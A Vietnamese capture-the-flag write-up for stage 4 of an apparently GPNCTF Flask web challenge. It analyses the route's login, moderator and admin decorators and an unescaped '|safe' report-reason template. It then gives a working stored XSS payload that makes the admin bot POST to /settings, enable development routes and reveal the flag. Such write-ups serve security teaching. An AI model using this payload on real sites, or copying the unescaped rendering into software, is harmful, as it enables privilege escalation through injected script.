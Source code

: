![image](https://github.com/user-attachments/assets/2f11bf17-7361-495a-8645-b48b14afc5b2)

# **ANALYZE**

Đến với Stage_4 , thì mục tiêu của ta chính là Lấy được giá trị FLAG_STAGE_4 được bảo vệ tại route:

```
@app.route("/development")
@login_required
@moderator_required
@development_routes_enabled
def development():
    return f"Flag 4: {os.environ.get('FLAG_STAGE_4')}"
```

Route này bị ẩn nếu SHOW_DEVELOPMENT_ROUTES chưa được bật, và chỉ cho phép truy cập bởi người dùng có role là "moderator" hoặc "admin"

Khi ta truy cập vào `/development` thì lại hiện 1 dòng thông báo

![image](https://github.com/user-attachments/assets/c13d19d0-eba9-42b1-8c96-6c0f6013a86a)

Và nó chứa 1 số lớp bảo vệ ta cần phải vượt qua : 

1. @login_required
Người dùng phải đăng nhập. Kiểm tra trong session:

```
def login_required(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        if 'user' not in session:
            return redirect(url_for('login'))
        return f(*args, **kwargs)
```
=> Cần session['user'] tồn tại .

2. @moderator_required
Người dùng phải có quyền "moderator" hoặc "admin":

```
def is_mod():
    return 'user' in session and session['user']['role'] in ['admin', 'moderator']

def moderator_required(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        if not is_mod():
            return "Unauthorized", 403
        return f(*args, **kwargs)
```
=> Cần session['user']['role'] ∈ ["admin", "moderator"] .

3. @development_routes_enabled
Chỉ bật route nếu biến SHOW_DEVELOPMENT_ROUTES = True:

Và ở phía bên trên khi tôi truy cập vào thì nó được báo là `'not enable'`

![image](https://github.com/user-attachments/assets/444bee38-a3a0-4ffe-a4ec-6bf36544d55c)

```
def development_routes_enabled(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        if not SHOW_DEVELOPMENT_ROUTES:
            return "Development routes are not enabled", 403
        return f(*args, **kwargs)
```

 Mặc định SHOW_DEVELOPMENT_ROUTES = False, phải bật lên bằng `/settings`

Nhưng , Chỉ admin có thể POST đến /settings để bật:

Nếu dùng tài khoản mod thì sẽ ko được 


Chỉ admin có thể POST đến /settings để bật:
```
@app.route("/settings", methods=["GET", "POST"])
@admin_required
def settings():
    global SHOW_DEVELOPMENT_ROUTES
    if request.method == "POST":
        data = request.get_json()
        if data and data.get("show_development_routes"):
            SHOW_DEVELOPMENT_ROUTES = True
            return "Settings updated"
```
=>  Cần vượt qua decorator @admin_required

`@admin_required` kiểm tra cookie `ADMIN_PASSWORD`

```
def admin_required(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        if request.cookies.get("ADMIN_PASSWORD"):
            if hashlib.sha512(request.cookies.get("ADMIN_PASSWORD").encode()).hexdigest() == os.environ.get("ADMIN_PASSWORD_HASH"):
                return f(*args, **kwargs)
        return "Unauthorized", 403
```
=> Vậy, chỉ bot, vốn được thiết lập với ADMIN_PASSWORD hợp lệ, mới có thể bật chế độ development.

Không thể bật thủ công → nhưng có XSS
Flask render lý do report note bằng template không escape:

```
<p>Report reason: {{ note.reason|safe }}</p>
```
Nếu attacker chèn <script> vào lý do report → khi bot (đăng nhập admin) duyệt /report/<id>, đoạn JavaScript sẽ thực thi trong phiên admin của bot.

# **EXPLOIT**

PAYLOAD sẽ là : 
```
</textarea><script>
fetch('/settings', {
  method: 'POST',
  headers: {'Content-Type':'application/json'},
  body: JSON.stringify({show_development_routes:true})
});
</script><textarea>
```

Đoạn script thực hiện:

Gửi POST request đến /settings

Bật SHOW_DEVELOPMENT_ROUTES = true

Dưới ngữ cảnh của bot admin → vượt qua được @admin_required


![image](https://github.com/user-attachments/assets/758fe6bf-6252-4359-9a65-bfd0a1260ca0)


![image](https://github.com/user-attachments/assets/55dd1dd3-925c-46da-bc6d-77d09422c3ea)


Bot truy cập /report/<note_id>, nơi nội dung lý do xuất hiện:

```
<p>Report reason: </textarea><script>...</script><textarea></p>
```
JavaScript được thực thi → dev mode được bật thành công.

Và khi ta truy cập lại vào `/development` thì ta sẽ nhận được flag 

![image](https://github.com/user-attachments/assets/3e6a2a34-ffee-4e83-83df-030840ff3d18)

# **FLAG**

```
GPNCTF{flag_stage_4_the_real_flag_will_be_on_the_provided_instance}
```




